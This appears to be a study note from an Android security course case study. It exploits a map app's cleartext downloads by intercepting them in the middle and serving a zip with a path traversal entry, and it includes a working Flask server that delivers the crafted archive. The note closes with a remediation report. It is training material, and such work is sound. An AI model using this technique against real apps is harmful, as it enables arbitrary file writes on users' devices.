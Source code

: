 
2024-11-06 12:38

Source: #android 

We have an app that basically downloads maps and lets you view it
The goal will be to use network interception to exploit an issue that allows us to write arbitrary files.
- to write a `hax` file into the pocket maps download folder

There are lots of different angles how you could approach this application
- you could go with static analysis, [[Reverse Engineering Android apps]] approach using JADX to decompile the APK and look around. 
- you could set up [[Advanced Interception Tricks]] and look at all the different kinds of HTTP requests the app sends 
### Static 

Using JADX, we can explore the Android manifest, but we can also see a network security config. 
 >This config allows clear text traffic for a particular domain and this IP, but is this domain actually used even If clear
> text is permitted in the config? Maybe these are just for testing and they are not actually used in production.

We can search for this domain and we find this API request. So it does seem relevant, but we haven't really confirmed it yet. That's why we could now jump over to the dynamic testing approach using network interception.
### Dynamic 

we can see the application does indeed use HTTP Clear Text Communication. 
This allows a machine in the middle attacker to not only see the traffic that is sent and received, but also to manipulate the traffic. 

When we download a map, we see the request for it in Burp, which turns out to be a `ghz` file. which actually is just a zip archive. 
this zip archive contains a lot of files that you can see when you unpack it locally. 
(right click on the request and `copy URL` and paste it in the browser, replace the domain name to `storage.googleapis.com`)

Now let's try to find this content on the phone using ADB shell and make sure you have root access we can use
``` sh
find / | grep pocket 
# grab for any file parts containing pocket map
```
we can find the downloaded map here **This shows us that the app does indeed unpack the map zip**
### MITM setup

We are going to create a dynamic test setup to simulate a machine in the middle attacker in order to exploit the pocket text map.

head over to Burp and see the two important requests.
- One loads the available maps 
- the other is the GHZ zip archive download. 

And keep in mind, our goal is to attack this app by simulating a machine in the middle[[m]] attacker who can manipulate the clear text request or responses. Of course, we could simply intercept the traffic with [[burpsuite]] or even use match and replace rules, but all of that fails once we try to handle binary data such as the zip file.
#### HTTP mock extension 

First, I'm going to Install a burp extension called HTTP Mock. This extension gives us a lot more freedom in the way how we can change and manipulate the responses to certain requests.

To do that, we can right click our URLs and select extension HTTP mock - -> mock HTTP response and send these details over to the extension. 

Here we have the mock rules using regular expressions. Different parts of the requests are matched. Basically it works this way. If a request is coming into Burp, it will check the host, the port, the method, and even the file path. And if it matches, then respond with this data instead. 

But we are going one step further. Now we are actually going to use the redirect to URL feature (bottom of the page) set to Basic by default, to send the request to another web server. 

replace the contents of the response to `http://127.0.0.1:1234/map.json`
we are actually sending a request to this Local server, URL, I'm also removing part of the URL matching in order to match any file that we download (append `/.*`)
change some other fields (eg. change host & Port to `.*`) so they match anything. This way we can make sure our rules really get applied to all the incoming requests.

we could search for map download related code or we go straight to zip functionality searching for typical Android Java classes related to zip files such as ZipEntry.

> The entry name of a zip file can contain a path traversal. for this current app

This means we just have to create a zip file with an entry that contains such a path traversal (the app creates a directory if it doesn't exists . 

```python
from flask import Flask, jsonify, send_file
import zipfile, io

app = Flask(__name__)

@app.route('/map.json')
def serve_map():
    # This is where you would define the JSON response or fetch it from a file or database
# to confirm here that our custom request redirection worked. We are only seeing one app exactly as we have specified in our fake server.
    response = {
        "maps-0.13.0_0-path": "maps",
        "maps-0.13.0_0":
        [
            { 
                "name": "hextree-android_continent", 
                "size": "812K", "time": "2024-02" },
        ]
    }
    return jsonify(response)

@app.route('/map.zip')
def map_archive():
# create a malicious zip file that leads to an arbitrary file. Specifically try to write the hex file into the pocket maps download folder.
    buffer = io.BytesIO()
    with zipfile.ZipFile(buffer, 'w') as zipf: # create a zip file in a memory buffer
        zipf.writestr('../../downloads/hax','test path traversal') # using the zipfile module we can create arbitrary zip file entries with any name and content
    buffer.seek(0)
    return send_file(buffer, as_attachment=True,download_name='map.ghz')

if __name__ == '__main__':
    app.run(debug=True, port=1234)
```

we can now simulate our machine in the middle attack where we as the attacker manipulate the map download. When a user tries to download any map, the unzipping code will run and will write our malicious hacks file into an arbitrary folder that it was not intended to write into. 

### Report 

We have Identified two issues which lead to a quite serious security issue in the pocket text map.
- The first issue makes the attack possible in the first place. It turns out that the app uses insecure clear text HTTP in order to download map data. This insecure setup allows an attacker to perform a machine in the middle attack and could manipulate the downloaded map data.
- The second issue was found in how the map unzip code works. an attacker can craft a malicious map zip file, including a path traversal that can be used to write arbitrary files and arbitrary file locations.

It's recommended to sanitize the zip entry name, so they cannot include path traversals and the API should use SSL instead.

### References
[Static vs. Dynamic Analysis](https://app.hextree.io/courses/network-interception/case-study-pockethexmap)
